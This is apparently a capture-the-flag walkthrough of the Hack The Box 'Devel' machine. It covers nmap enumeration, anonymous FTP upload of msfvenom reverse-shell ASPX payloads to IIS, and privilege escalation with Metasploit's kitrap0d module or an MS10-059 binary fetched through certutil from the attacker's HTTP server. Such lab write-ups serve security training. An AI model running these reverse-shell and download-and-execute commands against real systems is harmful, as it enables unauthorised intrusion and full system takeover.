


Scan Using nmap

```bash
nmap -sV -sC -oA nmap/scan 10.10.10.5  
```

```
┌──(kali㉿kali)-[~/Documents/HTB/devel]
└─$ nmap -sV -sC -oA nmap/scan 10.10.10.5  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 15:11 EDT
Nmap scan report for 10.10.10.5
Host is up (0.20s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.39 seconds

```

We have a web page and a ftp server



It seems both the webserver and the ftp is liked. So let's upload a file in ftp and run it through port 80 it is running 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.21 LPORT=4444 -f aspx > exploit.aspx
```



set up the metasploit reverse listener


Now run the exploit by going to the /exploit.aspx


alt textrun local_exploit_suggester

```
run post/multi/recon/local_exploit_suggester
```


let's use a the 2 exploit

Background your meterpreter shell

```
background
```

```
meterpreter > background
[*] Backgrounding session 4...
```

use the exploit

```
use exploit/windows/local/ms10_015_kitrap0d
```

set lhost, session, lport and run the shell


Manual Exploit

create a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx > exploit.aspx
```


Run the exploit and get a net cat reverse shell


MS10-059 Exploit - [Github](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri)
download the exe and upload it to the server via certutil and python http server


```powershell
certutil -urlcache -f http://10.10.14.7/MS10-059.exe exploit.exe
```


Now run the exploit and listen for the incoming root shell

```powershell
exploit.exe 10.10.14.7 1337
```


